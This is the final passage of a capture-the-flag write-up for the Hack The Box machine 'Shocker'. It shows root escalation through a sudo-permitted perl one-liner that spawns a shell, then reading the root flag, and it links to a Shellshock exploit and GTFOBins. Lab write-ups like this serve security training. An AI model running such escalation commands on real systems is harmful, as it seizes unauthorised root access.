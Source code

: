 ```
10.10.10.56> sudo /usr/bin/perl -e 'exec "/bin/sh";'
whoami
10.10.10.56> root

10.10.10.56> cd /root
10.10.10.56> cat root.txt
```

And there we get the final root flag!

## Key Points to Take Away
1. If you hit a dead end try to use specific target based wordlists for enumeration. It is possible that you won't find anything from the general wordlist.

## References
1. [Shocker](https://app.hackthebox.com/machines/108)
2. [Shellshock Remote Code Injection](https://www.exploit-db.com/exploits/34900)
3. [GTFOBins](https://gtfobins.github.io)

